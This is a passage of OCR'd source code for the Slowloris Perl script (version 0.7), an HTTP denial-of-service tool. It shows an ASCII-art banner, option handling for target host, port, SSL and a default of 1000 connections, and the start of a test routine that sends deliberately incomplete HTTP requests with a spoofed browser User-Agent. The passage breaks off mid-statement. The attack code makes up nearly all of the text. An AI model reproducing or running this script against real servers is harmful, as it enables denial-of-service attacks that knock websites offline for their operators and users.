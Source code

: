 #!/usr/bin/perl -w use strict; use IO::Socket::INET; use IO::Socket::SSL; use Getopt::Long; use Config;  $SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors  print &lt;&lt;EOTEXT; CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc:::: CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc::: CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {     print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print